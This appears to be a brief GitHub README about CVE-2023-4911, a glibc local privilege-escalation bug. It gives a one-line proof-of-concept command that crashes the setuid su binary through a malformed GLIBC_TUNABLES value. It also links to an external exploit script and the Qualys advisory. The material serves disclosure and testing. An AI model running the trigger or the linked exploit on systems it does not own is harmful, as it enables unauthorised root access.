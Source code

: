 # CVE-2023-4911

## Proof of concept

```bash
$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```


Exploit : https://haxx.in/files/gnu-acme.py

Detials: https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt
